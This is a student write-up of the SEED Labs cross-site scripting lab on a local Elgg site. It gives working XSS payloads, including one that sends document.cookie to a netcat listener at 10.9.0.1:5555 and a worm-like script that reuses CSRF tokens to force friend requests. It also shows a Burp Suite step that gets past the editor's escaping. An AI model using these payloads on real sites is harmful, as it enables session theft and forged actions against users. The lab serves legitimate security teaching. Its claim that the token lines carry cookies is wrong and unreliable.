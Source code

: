 # Ch5 Cross.Site Scripting (XSS) Attack Lab on Elgg WebApp

##  Task 1: Posting a Malicious Message to Display an Alert Window

1. After build and run the containers, go to http://www.seed-server.com/

2. Access a profile (e.g., alice) using the correspondent credentials.

3. Edit the profile and add one of the following strings inside the field "Brief description":

```js
<script>alert('XSS');</script>
```
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab.20220930/myscripts.js"> </script>
```

4. In the first case, just reload the profile page and you will see the alert appearing.

5. In the second case, create a http server on your local machine lunching the command:

```console
python3 -m http.server 8000
```

6. Create a js file myscripts.js inside the folder Ch5_XSS_Lab.20220930 with just the following line of code:

```js
alert('XSS');
```

7. Reload the profile page and you will see the alert appearing.

## Task 2: Posting a Malicious Message to Display Cookies

Just substituting in the previous task

```js
<script>alert(document.cookie);</script>
```

Or in the file scripts.js:

```js
alert(document.cookie);
```

## Task 3: Stealing Cookies from the Victim’s Machine

1. Start the TCP server using:
```console
nc -lknv 5555
```

2. Just substituting in the previous task:
```js
<script>
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

3. Or edit the profile and add the following strings inside the field "Brief description":

```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab.20220930/myscripts.js"> </script>
```

4. Create a http server on your local machine lunching the command:

```console
python3 -m http.server 8000
```

5. And put in the file scripts.js:
```js
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
```

## Task 4: Becoming the Victim’s Friend

I use the following script:
```js
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // (1)
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // (2)
        var guid="add?friend="+elgg.page_owner.guid;
        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/"+ guid + ts + token + ts + token;
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

1. Explain the purpose of Lines (1) and (2), why are they are needed?

You need code Lines (1) and (2) to append to the URL the victim’s cookies which are employed to identify the victim, i.e., the user, which will add Samy as a friend.

2. If the Elgg application only provide the Editor mode for the “About Me” field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

### Method 1 using "Brief Description" field
Using the same trick of exercie 1, we paste in the "Brief Description" field the following script:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```

Where samyworm.js contains the following code:
```js
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // (1)
    var token="&__elgg_token="+elgg.security.token.__elgg_token; // (2)
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
```

### Method 2 using "Description" field

I modify the Samy profile, adding in the "Description" field:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```
And before save the updates, I start Burp Suite in intercepting mode. So, after clicking "Save" on the seed-server site, I intercept the packet that want to update the "Description" field. In Burp I can see it, and in particular I notice the following string:
```js
<p>&lt;script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"&gt;&lt;/script&gt;</p>
```

So I modify this string with the correct one:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```

And forward the modified packet. Now when a user reach the samy profile, the samyworm.js file is executed, and they will became friend.